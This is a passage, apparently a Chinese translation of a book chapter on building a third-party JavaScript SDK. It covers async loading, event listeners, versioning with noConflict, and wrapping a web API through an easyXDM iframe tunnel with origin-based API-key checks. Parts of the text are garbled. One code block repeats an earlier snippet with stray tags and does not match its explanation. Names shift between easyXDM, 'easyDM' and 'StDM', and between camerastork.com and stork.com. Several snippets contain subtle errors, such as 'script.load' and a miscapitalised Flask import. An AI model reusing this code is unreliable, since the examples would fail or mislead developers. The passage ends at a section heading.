到目前为止，发布者可以使用标准的阻塞脚本包含来加载你的 SDK。但阻塞脚本，即使是极简的，仍然是不好的。我们将快速查看你可以使用的一些技术，允许发布者异步加载你的 SDK。

异步加载 SDK 的困难之处在于，发布者在库被完全下载并解析之前无法执行库中的函数。如果他们这样做，就会得到一个错误——代码尚未准备就绪。你之前最初的小组件实现并没有遇到过这个问题，因为那个版本在准备就绪时会自动执行。

## 实现一个精简 SDK

准备就绪。为了解决这个问题，你需要给发布者提供一段代码，这段代码既能异步加载 SDK 库（`sdk.js`），又能提供发布者在文件准备就绪后执行代码的方法。

让我们先看一个简单但幼稚的方法。你首先为发布者提供一个异步脚本包含代码段，它通过创建一个 `<script>` DOM 元素并将其添加到发布者的页面中来加载 `sdk.js`。这段代码还向 `<script>` 元素的 `load` 和 `readystatechange` 事件绑定了事件处理器；当脚本加载完成时，处理器触发。在你的文档（或代码段的源码）中，你指示发布者将代码输入此事件处理器内部。当处理器触发时，意味着 `sdk.js` 已加载，发布者可以安全地调用 `Stork.init`。

```html
<script>
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/sdk.js';
  script.load = script.onreadystatechange = function() {
    var rdyState = script.readyState;
    if (!rdyState || /loaded|complete/.test(rdyState)) {
      Stork.init(function() {
        Stork.productWidget({
          id: '1337',
          dom: 'stork-widget-location'
        });
      });
      script.onload = null;
      script.onreadystatechange = null;
    }
  };
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>
```

也许现在你明白为什么初级程序员可能会坚持使用阻塞式脚本包含了；这个示例的代码比 8.1.2 节中的阻塞示例要多得多。尽管发布者理想情况下会从你的 SDK 文档复制并粘贴这段代码的大部分到他们的源码中，但他们仍然需要在中间插入自己的代码，这可能导致他们不小心修改了错误的代码。最大限度减少这种可能性非常重要；为发布者调试代码是一个巨大的时间消耗，应该尽量避免。出于这些原因，我们不建议使用这种解决方案。

**列表 8.2**

用于异步加载的发布者代码复杂且易错。

| 绑定事件处理器 | 发布者代码 |
| :--- | :--- |
| 从这里开始 | |
| 移除事件处理器 | 完成时 |

### 预定义回调函数

显然，处理脚本处理器有些令人生畏——更好的方法是让发布者定义一个在 SDK 加载后被调用的函数。这个变量需要在全局范围内声明，以便 SDK 知道去哪里找它。这种脚本如下：

```html
<script>
(function() {
  var script = document.createElement('script');
  script.async = true;
  script.src = 'http://camerastork.com/sdk.js';
  script.load = script.onreadystatechange = function() {
    var rdyState = script.readyState;
    if (!rdyState || /loaded|complete/.test(rdyState)) {
      Stork.init(function() {
        Stork.productWidget({
          id: '1337',
          dom: 'stork-widget-location'
        });
      });
      script.onload = null;
      script.onreadystatechange = null;
    }
  };
  var entry = document.getElementsByTagName('script')[0];
  entry.parentNode.insertBefore(script, entry);
})();
</script>

window.Stork.ready = function() {
  Stork.productWidget({
    id: '1337',
    dom: 'stork-widget-location'
  });
};
</script>

if (typeof Stork.ready === 'function') {
  Stork.ready();
}
```

使用全局变量来存储回调函数相比之前的方案有了一个大进步。但它有一个小缺陷：任何时间只能有一个 `Stork.ready` 函数。为了解决这个问题，不要将 `Stork.ready` 视为一个函数，而是一个数组。为了注册一个新的回调，将其添加到此数组：

```javascript
Stork.ready = Stork.ready || [];
Stork.ready.push(function() {
  Stork.productWidget({
    id: '1337',
    dom: 'stork-widget-location'
  });
});
```

这个代码看起来熟悉吗？它类似于我们在末尾展示的示例。如果你想一想，回调函数可以被视为 SDK 的配置参数。例如，发布者可以通过查询字符串将回调名称传递给 SDK——类似于 JSONP 请求。只要发布者定义了唯一的回调函数，就不会发生冲突。这恰好是 Google Maps 使用的方法：

```javascript
script.src = "http://maps.googleapis.com/maps/api/js?callback=my_func";
```

这正是我们在第 2 章中展示的。现在，我们将跳过加载，直接进入本章的核心：在 SDK 中实现公共函数。

```javascript
Stork.productWidget = function(options) {
  options = options || {};

  var productId = options.id;
  var targetDOM = options.target;

  loadProductData(productId, function(productData) {
    renderWidget(targetDOM, productData);
  });
};
```

这应该是很直接的——你只是为你已经写好的代码提供一个公共接口。这里引用的辅助函数——`loadProductData` 和 `renderWidget`——应该在 `sdk/lib.js` 中被声明为私有函数。

这里的要点是，为你已经拥有的功能（渲染小部件）编写公共函数是简单的。你只需要为发布者提供一个合理的接口，以便他们调用你的代码。接下来，让我们来看一个完全新的功能：为发布者提供监听内部应用程序事件的函数。

### 8.1.4 事件监听器

下一组要实现的公共函数是 `Stork.listen` 和 `Stork.unlisten`。我们在引言中描述过 `Stork.listen`：它是发布者监听应用程序中发生的公共命名事件并对其做出相应响应的方法。逻辑上，`Stork.unlisten` 应该是其反面：当发布者已经在监听某个命名事件时，它是用于停止监听该事件的。

让我们来看 `Stork.listen` 的简单实现，它接受两个参数——一个表示事件名称的字符串，以及一个如果或当该事件发生时调用的处理函数：

```javascript
var listeners = {};

Stork.listen = function(eventName, handler) {
  if (typeof listeners[eventName] === 'undefined') {
    listeners[eventName] = [];
  }
  listeners[eventName].push(handler);
};
```

在这里，应用程序在一个名为 `listeners` 的私有变量中维护一个事件处理器的内部列表。当调用 `Stork.listen` 时，发布者的事件处理器会被追加到给定事件的列表中。但事件是在何时触发的呢？

你的应用程序现在需要一个内部函数，在事件发生时触发这些事件处理器。让我们把这个函数命名为 `broadcast`。当你的应用程序内部发生重要事件时，你会调用 `broadcast` 并传入发生事件的名称。例如，当产品小部件完成渲染时，你可以使用 `broadcast` 来指示一个名为 `productWidget.rendered` 的事件已经发生：

```javascript
broadcast('productWidget.rendered');
```

这是一个作为 `sdk/lib.js` 内部私有函数的 `broadcast` 实现示例。为什么要私有？你不希望其他方——如发布者——触发系统中的事件：

```javascript
function broadcast(eventName) {
  if (!listeners[eventName]) {
    return;
  }
  for (var i = 0; i < listeners[eventName].length; i++) {
    listeners[eventName][i]();
  }
}
```

你应该在任何想要公开某个事件已发生的地方调用 `broadcast`。我们刚刚只看了一个示例事件——`productWidget.rendered`——但有很多用例，例如，报告联盟链接被点击时的情况（`productWidget.referralClicked`），或者当用户登录你的服务时的情况（`productWidget.authenticated`）。记住：这些是你自己的内部事件，你可以根据自己的意愿对它们进行命名并启动它们。

在某个时刻，发布者可能想要停止监听某个事件。例如，如果发布者只对事件的单次发生感兴趣，他们可以在事件发生一次后取消订阅。这就是 `Stork.unlisten` 派上用场——它从系统中取消订阅之前注册的事件处理器：

```javascript
Stork.unlisten = function(eventName, handler) {
  if (!listeners[eventName]) {
    return;
  }
  for (var i = 0; i < listeners[eventName].length; i++) {
    if (listeners[eventName][i] === handler) {
      listeners[eventName].splice(i, 1);
      break;
    }
  }
};
```

通过这三个函数——`Stork.listen`、`Stork.unlisten` 和 `broadcast` 函数——你现在拥有了发布者监听你应用程序中发生事件的所有组件。

### 使用自定义事件库

正如我们在书中涵盖的许多内容一样，对于我们刚刚涵盖的示例自定义事件代码，也有开源的替代方案。例如，jQuery 使用其常规的 DOM 事件辅助函数来支持自定义事件：¹

- `jQuery.bind`—在 DOM 元素上绑定事件处理器。
- `jQuery.unbind`—从 DOM 元素上移除之前绑定的事件处理器。
- `jQuery.trigger`—在 DOM 元素上触发事件。

¹ 你可以在 jQuery 网站上找到这些函数的完整文档：`http://api.jquery.com/category/events/`。

这些函数看起来与你刚刚实现的 `Stork` 事件函数非常相似。如果可以使用它们来代替，不是很好吗？这样，你就可以利用 jQuery 经过良好测试的自定义事件代码，而不是维护你自己的。

这里有一个小障碍：jQuery 的 `bind` 和 `trigger` 函数在 JavaScript 对象上绑定事件，而 `Stork` 的事件函数并不如此。使用一个存根（stub）可以快速解决这个问题。以下是 `Stork.listen`、`Stork.unlisten` 和 `broadcast` 的修改版本，它们使用了：

```javascript
var stub = {};

Stork.listen = function(eventName, handler) {
  stub.bind(eventName, handler);
};

Stork.unlisten = function(eventName, handler) {
  stub.unbind(eventName, handler);
};

function broadcast(eventName) {
  stub.trigger(eventName);
}
```

### 版本控制

通常，版本控制是通过 SDK 的脚本 URL 完成的。对于这种技术，你在脚本 URL 中嵌入一个版本字符串。例如，Camera Stork SDK 可以通过以下脚本 URL 加载：

```html
<script src="http://camerastork.com/sdk_1.0.js"></script>
```

在这里，版本号 1.0 被嵌入文件名中。如果你决定对你的 SDK 引入破坏性更改，你可以创建一个新版本并在那里引入更改。例如，为了安全地引入我们之前讨论的 `Stork.productWidget` 的破坏性更改，你会复制 `sdk_1.0.js`，将其命名为 `sdk_1.1.js`，并在那里应用更改：

```html
<script src="http://camerastork.com/sdk_1.1.js"></script>
```

旧文件 `sdk_1.0.js` 不包含更改，因此使用该版本的用户不受影响。

这种技术简单且有效。只有一个主要问题：当同一个页面上有两个指向你 SDK 的脚本包含，且每个都指向不同的版本时，会发生什么？这种情况并不常见，但如果两个开发者在同一个发布者属性上编写单独的集成，或者发布者使用的另一个第三方脚本正尝试与 Camera Stork SDK 通信，就会发生这种情况。

让我们看看目前 SDK 中是如何处理这种场景的。如果你还记得早些时候 SDK 的架构，`sdk.js` 的顶部包含以下代码：


```javascript
(function(window, undefined) {

var Stork = {};

if (window.Stork) {

return;

}

...

})(this);
```

你会注意到，如果`Stork`对象已经定义，脚本将提前退出。这意味着任何后续对`sdk.js`的声明实际上都不会产生任何作用。当应用程序只有一个版本时，这并不是一个问题，因为代码只会用一个相同的版本替换自己。但在有多个版本的情况下，这段代码防止了人们在同一个页面上加载两个不同的版本。

## 版本并不非要是数字的

与所有软件一样，除了数字，你还有对版本字符串的其他选择。你可以使用如`latest`的符号名称来始终提供 SDK 的最新版本，或者使用`dev`来提供最新的前沿开发版本。

这里有一个描述此场景的示例，Camera Stork SDK 被加载了两次，每次指向不同的文件/版本：

```html
<script src="http://camerastork.com/sdk_1.0.js"></script>

<script>

/* 版本 1.0 已加载 */

</script>

<script src="http://camerastork.com/sdk_1.1.js"></script>

<script>

/* 版本 1.0 仍在加载状态 */

</script>
```

为了解决这个问题，你的第一直觉可能是修改`sdk.js`，使得 SDK 的任何后续加载都能替换较早的版本（如果存在）。但你将会遇到相反的问题：此页面上任何期望 SDK 版本 1.0 的长时间运行代码现在将与新加载的版本（1.1）不兼容。

## 实现无冲突（NOCONFLICT）

幸运的是，这种情况是可以解决的。如果你还记得，早在第 2 章中我们就向你展示了如何在可能已经被发布者加载的情况下加载 jQuery JavaScript 库。为了避免与父页面冲突，你调用了 jQuery 的`$.noConflict`函数。该函数将最后加载的全局 jQuery 分配给局部变量，确保你只使用你需要的版本：

```javascript
Stork.jQuery = jQuery.noConflict(true);
```

www.it-ebooks.info

**185**

***版本控制***

现在，`noConflict`函数不仅仅是 jQuery 特有的——它是在许多著名的 JavaScript 库中实现的模式，包括 Backbone.js、Underscore.js 和 easyXDM 等。我们将 Camera Stork SDK 加入到这些库列表中。

要做到这一点，让我们回到`sdk.js`（列表 8.5）。首先，你将移除当全局`Stork`对象已存在时提前退出的行。相反，你将在用新版本覆盖它之前缓存现有的`Stork`对象。如果调用了`Stork.noConflict`，它会将缓存的对象恢复到其原始位置。

```javascript
(function(window, undefined) {

var Stork = {};

...

var _Stork = window.Stork;

window.Stork = Stork;

Stork.noConflict = function() {

window.Stork = _Stork;

return Stork;

};

})(this);
```

非常简单，对吧？现在发布者只需要编写以下代码，即可确保他们只引用 SDK 的正确版本：

```html
<script src="http://camerastork.com/sdk_1.0.js"></script>

<script>

window.MyStork = Stork.noConflict();

</script>
```

现在，即使有人来加载一个不同的版本，`window.MyStork`也将保持不受影响。成功！

## 8.2.2 版本化的初始化

使用单独的文件来提供 SDK 的不同版本是一种经过时间验证的技术，但我们将探索另一种方法：通过你的 SDK 的初始化函数进行版本控制。在初始化级别进行版本控制相比 URL 版本控制具有细微的优势——但在那之前，让我们先看看它是如何工作的。

记住：在发布者使用你的 SDK 之前，他们必须调用`Stork.init`，这会加载大部分应用程序代码，并在代码准备就绪执行提供的回调函数。这个初始化函数是发布者声明版本字符串的极佳位置：

```html
<script src="http://camerastork.com/sdk.js"></script>

<script>

Stork.init('1.1', function(S) {

S.productWidget({

id: '1337',

dom: '.stork-widget-location-class'

});

});

</script>
```

列表 8.5  
为 Camera Stork SDK 实现`noConflict`

- 缓存现有的`Stork`对象
- 恢复缓存的`Stork`对象

www.it-ebooks.info

**186**

第 8 章

***开发第三方 JavaScript SDK***

在这个示例中，`Stork.init`的第一个参数是期望的版本字符串，而回调函数变成第二个参数。你会发现回调函数现在接受一个参数`S`，它实际上是 Stork 对象。

## 第 8 章

### 开发第三方 JavaScript SDK

在初始化期间进行版本控制并非没有缺陷。其中一个缺陷是它无法让你对初始化函数（`Stork.init`）进行版本控制——当你修改此函数时，你必须小心，因为你可能会意外引入破坏性变更（breaking changes）。此外，这种技术可能被认为比 URL 版本控制更复杂，而大多数发行者已经对后者非常熟悉。因此，我们并不一定主同某一种技术优于另一种技术——这取决于个人偏好。

## 8.3 封装 Web 服务 API

在本章目前为止，我们已经了解了如何将第三方 JavaScript SDK 作为一种替代的、更具编程性的应用程序分发方法。但 SDK 还能提供另一种有价值的服务：作为应用程序 Web 服务 API 的客户端 JavaScript 封装器。

我们所说的客户端封装器是指一组方便访问应用程序 Web 服务 API 的函数。发行者不再直接通过 JSONP 甚至 CORS 与 API 通信，而是使用你的 SDK 暴露的函数向你的 API 发起请求。

我们将很快开始实现这些函数。但首先，我们将快速回顾 Web 服务 API，并讨论 JavaScript 封装器与使用 JSONP 或 CORS 进行直接客户端访问相比的优势。然后，我们将使用 easyXDM 和跨域消息实现 API 封装函数。最后，我们将讨论如何确保只有注册且经过识别的发行者才能使用你的客户端 API 函数。

首先，对 Web 服务 API 进行快速复习：它们是什么、如何工作，以及它们的用途是什么。

### 8.3.1 在客户端访问 Web 服务 API

如果你不熟悉它们，Web 服务 API 是一组 HTTP 端点，允许以程序化的方式访问 Web 应用程序。为了向 API 查询数据，发行者会向你的其中一个端点发送 HTTP 请求，服务器在 HTTP 响应体中返回格式化数据，通常为 JSON 或 XML 格式。

这里有一个如何使用`curl`（一种用于发送 HTTP 请求的 Unix 工具²）查询 Twitter ManningBooks（Manning Publication 的官方 Twitter 账号）发布的最新 20 条公共状态更新（推文）的示例：

```bash
curl http://api.twitter.com/1/statuses/user_timeline.json?screen_name=ManningBooks
```

Twitter³ 使用包含 ManningBooks 用户时间线的结构化 JSON 数据对此请求做出响应。为了保持易读，我们将其缩短为状态更新。

² `curl`在 OS X 和大多数 Linux 发行版中默认安装。你可以在 Windows 上作为 cygwin Unix 命令行工具套件（http://cygwin.com）的一部分安装它。

³ Twitter 已移除了此端点；它已不再公开可用。Web 的动态特性正如此！

```json
{
  coordinates: null,
  contributors: null,
  retweet_count: 0,
  in_reply_to_user_it: null,
  favorited: false,
  geo: null,
  possibly_sensitive: false,
  in_reply_to_screen_name: null,
  user: { ... },
  id_str: "163357792512643073",
  place: null,
  retweeted: false,
  in_reply_to_status_id: null,
  created_at: "Sat Jan 28 20:28:27 +0000 2012",
  in_reply_to_status_id_str: null,
  truncated: false,
  source: "<a href=\"http://www.socialoomph.com\">SocialOomph</a>",
  in_reply_to_user_id_str: null,
  id: 163357792512643070,
  text: "Deal of the Day! Get half off the Sass and Compass in Action (http://t.co/gdVIl8gd ) eBook! Use code dotd0128tw at checkout."
},
  ...
}
```

就像这个使用`curl`的示例一样，大多数 Web 服务 API 设计用于从服务端访问，即从运行在你私有服务器上的编程语言进行访问。通常，这样做是为了让 API 识别请求，可以使用请求来源的 IP 地址，或者使用每次请求都提交的私有且唯一的 API 令牌。这有助于 Web 服务 API 对通过发送过多请求滥用 API 的发行者进行速率限制，甚至封禁。

#### JSONP 和 CORS

越来越多，Web 服务 API 发现了直接从浏览器发起请求的价值。许多 API 已经支持 JSONP（正如我们在第 4 章中学到的），JSONP 允许页面从不同域名请求数据。

Twitter 是支持 JSONP 请求的 Web 服务 API 示例。在上节中，我们演示了使用`curl`向 Twitter API 发起服务端请求，但相同的请求可以通过浏览器使用 JSONP 完成。以下代码片段使用 jQuery 助手发起 ManningBooks 用户时间线的请求：

```javascript
jQuery.ajax({
  url: 'http://api.twitter.com/1/statuses/user_timeline.json?screen_name=ManningBooks',
  type: 'jsonp',
  callback: function(response) {
    // success
  }
});
```

列表 8.7 包含 ManningBooks 更新的 JSON

JSONP 非常棒，因为它在所有浏览器中都能工作。如果你还记得，它的缺点是只支持 GET 请求、提交的数据量有限制、无法检测 400 或 500 HTTP 错误，并且客户端缓存很难。这是一个缺点清单，但幸运的是，我们开始看到一些 Web 服务 API 支持 CORS，允许跨域使用 XMLHttpRequest。这是更好的选择；XMLHttpRequest 没有像 JSONP 那样的缺点。

GitHub 是流行的代码托管服务，是支持 CORS 的极佳示例。只要你在他们的 API 中注册了你的域名，就可以使用 XMLHttpRequest（针对 Internet Explorer）从该域名发起跨域请求。例如，我们已经在 GitHub API 中注册了 thirdpartyjs.com（本书网站），这允许我们从自己的网站向其 API 调用 CORS 请求。以下代码片段使用 jQuery 助手查询 thirdpartyjs-code 仓库的信息：

```javascript
$.ajax({
  url: 'https://api.github.com/repos/thirdpartyjs-code',
  success: function(response) {
    console.log(response);
  }
});
```

如果这段代码看起来非常简单——它确实如此。jQuery 让使用 CORS 变得轻而易举。如果你好奇，这是服务器返回的 JSON 响应：

```json
{
  updated_at: "2012-01-24T08:35:04Z",
  has_downloads: true,
  ssh_url: "git@github.com:thirdpartyjs-code.git",
  language: "JavaScript",
  created_at: "2011-09-05T03:19:37Z",
  fork: false,
  description: "Companion source code to Third-party JavaScript (the book)",
  watchers: 3,
  pushed_at: "2012-01-24T08:35:04Z",
  private: false,
  html_url: "https://github.com/thirdpartyjs-code",
  git_url: "https://github.com/thirdpartyjs-code.git",
  owner: { ... },
  name: "thirdpartyjs-code",
  clone_url: "https://github.com/thirdpartyjs-code.git",
  id: 2326050,
  url: "https://api.github.com/repos/thirdpartyjs-code",
  forks: 4,
  homepage: "http://thirdpartyjs.com"
}
```


列表 8.8 来自 GitHub API 代表 `thirdpartyjs-code` 仓库的 JSON

关于 `thirdpartyjs-code` 仓库有这么多丰富且价值的数据。开发者通过 CORS 访问此或其他端点，以构建直接与 GitHub 接口的客户端应用程序。例如，`Dabblet`（`http://dabblet.com`）是一个基于 Web 的代码编辑器，它可以将文件保存为你 GitHub 账户中的新仓库。它完全使用纯客户端 JavaScript 和 GitHub API 实现了这一点——去看看吧。

#### 为什么需要客户端库？

你可能在问，如果 CORS 和 JSONP 已经让从浏览器访问 API 可能，那么在 JavaScript SDK 中封装 API 有什么好处？有很多很好的理由：

- **额外的浏览器支持**——CORS 是一个工作草案规范，还没有完整的浏览器支持。通过你的 JavaScript SDK，你可以使用跨域隧道向你的 API 发起 HTTP 请求。结合第 4 章的浏览器兼容性技术（或类似 `easyXDM` 的库），你将能够比仅 CORS 支持更多的用户。
- **更简单的抽象**——通过提供一组命名清晰且文档齐全的访问 API 的 JavaScript 函数，你可以为开发者消除大量的模板代码，帮助发行者更快地为你的平台进行开发。这还让你避开 JSONP 和 CORS 等复杂概念，从而降低开发者的门槛。
- **解耦**——Web 服务 API 一直变化，有时会对发行者产生破坏性变更。如果你在 JavaScript SDK 中封装对 API 的调用，就有可能在 JavaScript 级别预测并修复破坏性变更。

这些对你来说可能不是关键问题——这没关系。并不是每个人都需要多花精力构建一个封装 Web 服务 API 用的 SDK 接口。但你会惊讶于实现一个有多简单。在本章的剩余部分，我们将向你如何做。

### 8.3.2 封装 Camera Stork API

在本节中，我们将在 SDK 中实现一个公共 JavaScript 函数，允许用户与 Web 服务 API 通信。为了实现这一点，我们将设计一个用于 API 请求的函数，然后实现一个用于 HTTP 请求的跨域隧道。但在开始之前，我们需要一个 Web 服务 API 来工作。

所以，话不多说，让我们介绍 Camera Stork Web 服务 API。该 API 允许发行者访问有关 Camera Stork 产品目录和用户评论的公开信息。它暴露了表 8.1 所示的 HTTP 端点，这些端点接受许多参数并返回结构化的 JSON 响应。

访问这些端点的根 URL 是 `http://camerastork.com/api/`。这意味着如果发行者想要从 `reviews/list` 请求数据，他们将向 `http://camerastork.com/api/reviews/list` 发送 HTTP 请求。参数作为查询字符串参数提交。

## 第 8 章
### 开发第三方 JavaScript SDK

这里有一个 `curl` 命令示例，用于从 API 请求按日期排序的评论列表：

```
curl http://camerastork.com/api/reviews/list?ordered_by=date
```

请注意，这些端点是只读的：它们允许发布者查询 Camera Stork 数据库，但不能修改它。因此，它们都响应 GET 请求，而不响应 POST 请求。我们稍后会回到这一点上。

### JAVASCRIPT 接口

现在你已经了解了 Camera Stork Web 服务 API 的外观，是时候时候设计一个函数接口，以便从你的 SDK 访问这些端点了。你将引入一个新的公共函数 `Stork.api`，发布者将通过它访问 API。该函数将接受三个参数：发布者尝试访问的 API 端点（`reviews/list`）、随请求发送的一组 API 参数（`ordered_by`），以及最后在 API 响应准备就绪时执行的回调函数：

```javascript
Stork.api = function(endpoint, params, callback) {

  // 函数体体

};
```

例如，如果发布者想要请求按日期排序的用户评论列表（类似于之前的 `curl` 请求），他们将使用以下代码：

```javascript
Stork.api('reviews/list', { ordered_by: 'date' }, function(response) {

  if (response.error) {

    console.log("发生了一个错误：" + response.error);

  } else {

    console.log(response.data);

  }

});
```

当响应准备就绪时，SDK 会将响应对象传递给发布者的回调函数。如果 API 请求成功，可以通过响应对象的 `data` 属性访问 API 的 JSON 负载。如果发生错误，则可以通过响应对象的 `error` 属性访问错误响应字符串。

表 8.1：Camera Stork Web 服务 API

| URL 端点 | 返回内容 | 参数 |
| :--- | :--- | :--- |
| `products/list` | 产品列表 | `ordered_by`—价格、日期或评分 |
| `products/details` | 特定产品的详细信息 | `id`—产品的唯一 ID |
| `reviews/list` | 用户评论列表 | `ordered_by`—日期或评分；`product_id`—产品 ID |
| `reviews/details` | 特定用户评论的详细信息 | `id`—唯一的评论 ID |

## 封装 Web 服务 API

### FACEBOOK 的 JAVASCRIPT SDK 和 FB.API

`Stork.api` 看起来眼熟吗？如果你用过 Facebook 的 JavaScript SDK，它可能看起来。`Stork.api` 的灵感源于 `FB.api`，这是 Facebook JavaScript SDK 暴露的一个公共函数，用于封装 Facebook Graph API。可以在 `https://developers.facebook.com/docs/reference/javascript/FB.api/` 处了解更多信息。

好了，这个接口对我们来说很不错。它将为发布者提供一种从浏览器与 Camera Stork API 通信的简单手段，他们不需要担心跨域通信的细节。现在，让我们来实现它。

### 与 API 通信

接下来的任务是让你新创建的 `Stork.api` 函数向 Web 服务 API 发起请求。但正如你记得的，SDK 被加载到发布者的文档中，而 API 位于不同的域名（`camerastork.com`），因此你不能直接使用 `XmlHttpRequest`。虽然 CORS 和 JSONP 是这里可能的解决方案，但你希望支持尽可能广泛的浏览器，因此你将使用 `easyXDM` 实现一个跨域隧道，通过它可以安全地使用 `XmlHttpRequest`。

工作原理如下：你的代码将在发布者的页面上创建一个新的 `iframe` 元素，指向托管在 `camerastork.com` 上的隧道文件。由于该隧道文件托管在与 API 相同的域名下，它可以毫无限制地发出 `XmlHttpRequest`。要与运行在隧道文件（`iframe` 内部）的代码通信，你将使用 `easyXDM` 消息库（见图 8.2）。这意味着在初始化期间，需要与 SDK 主库文件一起加载 `easyXDM`。

说到这里，让我们回到初始化方法。像你之前做的那样，将加载主 SDK 库文件。但当文件准备就绪时，你会创建一个新的 `easyXDM` RPC（远程过程调用）对象，加载托管在 `camerastork.com` 上的隧道文件（见列表 8.9）。你现在将在隧道文件加载后执行发布者的回调函数，而不是在 `lib.js` 准备就绪后立即执行。

```javascript
Stork.init = function(callback) {

  loadScript("http://camerastork.com/sdk/lib.js", function() {

    Stork.rpc = new Stork.easyXDM.Rpc(

      {

        remote: "http://camerastork.com/sdk/tunnel.html",

        onReady: callback

      },

      {

        local: {}

      }

    );

  });

}
```

图 8.2：通过隧道文件启动跨域 `XmlHttpRequest`
(`publisher.com` -> `Stork.api` -> `easyXDM` -> `XHR` -> `camerastork.com` -> `tunnel.html` -> API)

该 RPC 对象只有一个函数：`apiTunnel`。这是隧道文件内部的一个函数，它除了封装对 Web 服务 API 的实际请求外别无其他作用。隧道文件内部是真正的 `Stork.api` 实现。因此，当发布者调用 `Stork.api` 时，他们实际上是在调用 `apiTunnel`，而它实现在隧道文件中。以下是 `tunnel.html` 的代码：

```html
<!DOCTYPE html>

<html>

<script src="easyXDM.js"></script>

<script src="jquery.js"></script>

<script>
function apiTunnel(endpoint, params, callback) {

  var options = {

    url: 'http://camerastork.com/api/' + endpoint,

    data: params,

    type: 'GET',

    complete: function(xhr) {

      var response = {};

      if (xhr.status !== 200) {

        response.error = xhr.responseText;

      } else {

        response.data = JSON.parse(xhr.responseText);

      }

      callback(response);

    }

  };

  $.ajax(options);

}
</script>

</html>
```

## 第8章
### 开发第三方 JavaScript SDK

在最起码，此类密钥用于跟踪应用程序的 API 使用情况，并确保其没有滥用。例如，如果一个应用程序向 API 发起了过多的 HTTP 请求，服务可以通过节流甚至拒绝该应用程序的请求，而不影响其他发布者。

在传统的 Web 服务 API 模型中，当请求从 Web 服务器私有送到 API 时，密钥的内容不会公开。当你从浏览器发起请求时，情况发生了变化；如果你要求发布者在每次请求中提交 API 密钥，密钥将在发布者的网页上可见。在这种情况下，密钥可能被第三方盗用并用于未经授权的请求。

以下是一个调用 `Stork.api` 函数并在请求中同时传递 `apiKey` 的示例。由于该代码在发布者的网页上可见，令牌很容易被窃取：

```javascript
Stork.api('products/details', {

  id: 1337,

  apiKey: 'fca023afee2d6f0d6866'

}, function(response) { /* ... */ });
```

#### 授权域名

为了防止未经授权的 API 使用，客户端 API 通常会请求一组允许 API 密钥发起请求的授权域名。通过这种方式，即使 API 密钥公开，也无法在发布者的域名之外使用。

你已经学习了验证请求源于给定域名的方法——使用 Referer 头。当你的 Web 服务 API 接收到带有 API 密钥的请求时，它会检查 HTTP 请求的 Referer 头，并根据发布者提供的授权域名对其进行验证。以下是用 Python 编写的 Stork API 端点实现：

```python
from Flask import make_response as response

from urlparse import urlparse

@app.route('/api/<endpoint>')

def api(endpoint=None):

    domain = urlparse(request.headers['Referer']).hostname

    api_key = request.args.get('apiKey')

    if domain not in trusted_domains(api_key):

        return response('Unauthorized domain: %s' % domain, 403)

    # 域名信任，继续处理请求
```

这种实现应该是是简单的。辅助函数 `trusted_domains` 返回与 API 密钥对应的域名列表。如果发现域名不在列表中，服务器将返回 403 HTTP 状态码（禁止）响应。

| 列表 8.11 | 使用 **Referer** 头验证请求源域名 |
| :--- | :--- |
| 从引用 URL 提取域名 | 与存储的域名进行验证 |

---

#### 隧道文件与 REFERER 头

并不如此。列表 8.11 展示的解决方案存在一个*严重*缺陷——你实现的 Web 服务 API 实际上是从 Stork 的域名（`stork.com`）发起的 `XMLHttpRequest`，而不是发布者的。这意味着发送到 API 的 Referer 头将实际上是你的 `tunnel.html` 文件。这是使用隧道的一个注意事项：所有请求现在源于你的域名。

此外，Referer 头本身并不总是可靠的。在许多情况下浏览器不会发送 Referer 头。首先，用户可能出于隐私考虑禁用 Referer 头；如果请求是从 HTTPS 资源（如 `https://publisher.com`）到普通的 HTTP 资源（`http://stork.com/api`），浏览器也会丢弃 Referer 头。

#### REFERER 还是 REFERRER？

你可能注意到 Referer 头只有一个 *R*，而单词 *referrer*有两个。这个拼写错误的单词被包含进了 HTTP 规范中，并一直保留至今：`http://en.wikipedia.org/wiki/referrer#Origin_of_the_term`

考虑到这些问题，我们将考虑一种完全避免 Referer 头的替代方案。首先，你需要知道加载 SDK 的文档的 URL/域名。你可以只需编写 JavaScript 代码——在父文中执行——通过 `window.location.href` 查询当前 URL 并将其传入隧道。但是不安全的，因为恶意的发布者可以向隧道传递任意值。

另一种（且安全的）获取父文档 URL 方法——使用 `window.postMessage` 的 Origin 参数。如果你记得，通过 `postMessage` 发送的每个消息都包含一个 Origin 参数，它是发送文档的协议、域名和端口（`protocol://domain:port`）。这个 Origin 值由浏览器生成，即使在 Referer 头被禁用的情况下也存在。

你将从 `iframe` 内部提取此 Origin 值，并在每次 `XMLHttpRequest` 中将其传递到你的服务器。为了将此值与普通的 API 参数分开（稍后我们会提到其他原因），将其作为*自定义* HTTP 头传递。你会将此头命名为 `Stork-Publisher-Origin`。在这里使用 Stork 前缀是为了避免与其他法的 HTTP 头冲突。

#### 自定义 HTTP 头与 X- 前缀

多年来，应用程序开发者在自定义头中使用 X- 前缀以避免与标准头名称冲突。截至2012年6月，IETF（互联网工程任务组）正式建议不要使用 X- 前缀（`http://tools.ietf.org/html/rfc6648`）。我们仍然认为“命名空间”HTTP 头是重要的，因此我们建议使用组织名称作为前缀（例如 `Stork-`）。

由于 `easyDM` RPC 对象封装了 `window.postMessage`（以及其他回退传输），它使得 Origin 值作为 RPC 实例上的属性可用。下一个列表是 `tunnel.html` 内部 `apiTunnel` 函数的修订版本，它通过 `Stork-Publisher-Origin` 头发送父 Origin。

```javascript
function apiTunnel(endpoint, params, callback) {

  function complete(xhr) { /* ... */ }

  var options = {

    url: 'http://stork.com/api/' + endpoint,

    data: params,

    method: 'GET',

    complete: complete,

    headers: {

      'Stork-Publisher-Origin': rpc.origin

    }

  };

  jQuery.ajax(options);

}
```

现在，在服务器端，你需要验证 `Stork-Publisher-Origin` 头。让我们回到服务器 API 代码——现在是它的最终形态。

```python
@app.route('/api/<endpoint>')

def api(endpoint=None):

    publisher_origin = request.headers['Stork-Publisher-Origin']

    domain = urlparse(publisher_origin).hostname
```


```python
api_key = request.args.get('apiKey')

if domain in trusted_domains(api_key):
    return api()
else:
    return response('Unauthorized domain: %s' % domain, 403)
```

只要发布者信任该域名，easyDM 能够确保 Origin 值没有被篡改。这通过隧道文件传输，并通过 StDM 验证了授权域名。

---

#### 伪造的头部与未经授权的访问

